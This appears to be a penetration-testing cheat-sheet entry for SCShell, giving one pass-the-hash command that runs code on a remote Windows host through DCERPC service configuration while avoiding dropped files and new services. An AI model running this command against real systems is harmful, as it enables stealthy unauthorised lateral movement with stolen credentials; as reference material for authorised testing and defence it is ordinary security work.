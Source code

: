 # SCShell

% SCShell, psexec, sealthy, DCERPC

## stealty psexec
#plateform/linux #target/remote #cat/ATTACK/CONNECT 

no service created, no smb used, no file dropped
https://github.com/Mr-Un1k0d3r/SCShell

```
python3 scshell.py -service-name <service-name|defragsvc> -hashes :<ntlm-hash> <domain_fqdn>/<user>@<ip>
```
